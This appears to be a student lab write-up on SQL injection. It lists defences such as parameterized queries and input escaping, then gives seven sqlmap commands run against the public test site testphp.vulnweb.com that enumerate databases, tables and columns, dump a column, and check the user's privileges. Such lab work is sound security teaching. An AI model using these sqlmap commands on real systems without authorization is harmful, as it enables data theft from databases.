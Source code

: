 ●	Enabling Web Application Firewall (WAF): Even though it’s not as effective as other preventative measures, it still can discover and even prevent SQL Injection.

●	Use prepared statements and parameterized queries: Parameterized statements ensure that the parameters passed into the SQL statements are treated safely.

●	Object-relational mapping: Most development teams prefer to use Object Relational Mapping frameworks to translate SQL result sets into code objects more seamlessly.

●	Escaping inputs: It is a simple way to protect against most SQL injection attacks. Many languages have standard functions to achieve this. You need to be aware while using escape characters in your code base where an SQL statement is constructed.

***RESULTS AND OUTCOMES***

Step 1: List information about the existing databases
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –dbs

<img src="https://user-images.githubusercontent.com/110705457/233798823-c338cf6c-a0fd-47be-991c-7df3505e4cc7.png" width="800">

Step 2: List information about Tables present in a particular database
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –D acuart –tables

<img src="https://user-images.githubusercontent.com/110705457/233798919-68f5d49b-2e3e-473a-96fc-2277e54f7155.png" width="800">

Step 3: List information about the columns of a particular table
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –D acuart -T artists –columns

<img src="https://user-images.githubusercontent.com/110705457/233798958-880fea3b-f21e-4d1a-9f8c-37d4d4f6b4c1.png" width="800">

Step 4: Dump the data from the columns
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –D acuart -T artists -C aname –dump

<img src="https://user-images.githubusercontent.com/110705457/233798977-fd550658-3be3-4eda-8132-9c0229e0e068.png" width="800">

Step 5: To Identify the current database user
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –current- user

<img src="https://user-images.githubusercontent.com/110705457/233799034-95855248-4e94-4cfa-87cb-612b3f23ceec.png" width="800">

Step 6: Identify current database name
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –current-db

<img src="https://user-images.githubusercontent.com/110705457/233799061-e4031d7e-d2dd-4561-9653-a6ea9800feca.png" width="800"><img src="" width="800">

Step 7: Identify the privileges, roles, and if current DB user is the DB admin
>$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --privileges --roles --is-dba –hostname

<img src="https://user-images.githubusercontent.com/110705457/233799099-957af4f7-0b51-4b59-99e3-0175bf73ed38.png" width="800">

***CONCLUSION***

SQL Injection attacks can exploit an organization’s database and control a database server behind a web application. Because they are relatively easy to implement, and because the potential reward is great, SQL injection attacks are not uncommon. Statistics vary, but it’s estimated that SQL injection attacks comprise the majority of attacks on software applications. According to the Open Web Application Security Project, injection attacks, which include SQL injections, were the third most serious web application security risk in 2021.

SQL Injection is a very popular attack method for Cyber Criminals. But taking proper precautions like ensuring the Data is Encrypted, Performing Security tests and by being up to date with patches, one can take meaningful steps toward keeping the data secure.

